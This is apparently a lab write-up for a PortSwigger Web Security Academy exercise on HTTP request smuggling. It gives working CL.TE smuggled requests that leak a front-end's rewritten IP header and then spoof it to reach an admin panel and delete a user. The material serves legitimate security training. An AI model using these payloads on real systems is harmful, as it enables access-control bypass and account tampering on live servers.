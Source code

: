 # Exploiting HTTP request smuggling to reveal front-end request rewriting

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address `127.0.0.1`. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name. 

## Reproduction and proof of concept

1. Browse to ``/admin`` and observe that the admin panel can only be loaded from ``127.0.0.1``.
2. Use the site's search function and observe that it reflects the value of the ``search`` parameter.
3. Use Burp Repeater to issue the following request twice.

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.

```text
<h1>0 search results for 'testPOST / HTTP/1.1
X-vneqTa-Ip: <my-ip>
Host: 0adb005f049c4476c11158ad00f70056.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer'</h1>
```
5. Make a note of the name of the`` X-*-IP`` header in the rewritten request, here it was `vneqTa` and use it to access the admin panel:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-vneqTa-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

6. Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:

![HTTP header smuggling](../../_static/images/smuggling1.png)

## Exploitability

An attacker will need to smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then the attackers will need to smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos. 
